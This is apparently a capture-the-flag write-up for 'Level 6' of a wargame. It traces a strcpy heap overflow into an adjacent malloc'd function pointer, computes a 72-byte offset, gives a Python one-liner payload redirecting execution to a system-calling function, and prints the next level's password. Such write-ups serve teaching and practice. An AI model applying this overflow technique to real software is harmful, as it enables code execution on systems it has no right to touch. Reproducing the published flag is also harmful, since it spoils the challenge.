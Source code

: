 ### Level 6

#### basic recon

![](./pics/1.png)
![](./pics/2.png)

well there's call to `m` and to `n` let's see what's going on there

![](./pics/3.png)

as you can see `n` has call to `system` and `m` has call to `puts`

#### Step by Step
![](./pics/1.png)
![](./pics/2.png)
![](./pics/3.png)
![](./pics/4.png)
![](./pics/5.png)
![](./pics/6.png)
![](./pics/7.png)
![](./pics/8.png)
![](./pics/9.png)
![](./pics/10.png)
![](./pics/11.png)
![](./pics/12.png)

but what's the meaning of the value `0x8048468` mean let's take look there

![](./pics/13.png)

oh well that's the location of the function `m` okay let's continue

![](./pics/14.png)
![](./pics/15.png)
![](./pics/16.png)
![](./pics/17.png)

what is the meaning of the value stored in eax now? it's for some address of the previous stack frame so?
since we are trying to reach something in the previous stack frame maybe the arguments of the programm
let's check

![](./pics/18.png)
![](./pics/19.png)
![](./pics/20.png)
![](./pics/21.png)
![](./pics/22.png)
![](./pics/21.png)
![](./pics/24.png)

here's the interface of `strcpy`

```c
char *strcpy(char *dest, const char *src);
```
![](./pics/25.png)

so what we did now is copy the first param to the location that was returned by the first malloc
and as you can see after that there's call using the value stored at [esp+0x18], which is pointing
to function `m`, let's recap

malloc_1: 0x0804a008
malloc_2: 0x0804a050

and `strcpy` will copy into malloc_1, and call will use value stored in malloc_2, and jmp to it
and malloc_1 < malloc_2, and `strcpy` has no boundary checks, I could input a long input, to fill the
gap between them and then put the location of the function `n` after that but what is the value of this
gap?
gap = malloc_2 - malloc_1 = 72

maybe something like this
A*72 + '0x08048454', 0x08048454: address of `n`

![](./pics/26.png)

#### Payload

```python
python -c "print ('A'*72 + '\x54\x84\x04\x08')" | xargs -I PPPP ./level6 PPPP
```

#### Password for level7
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```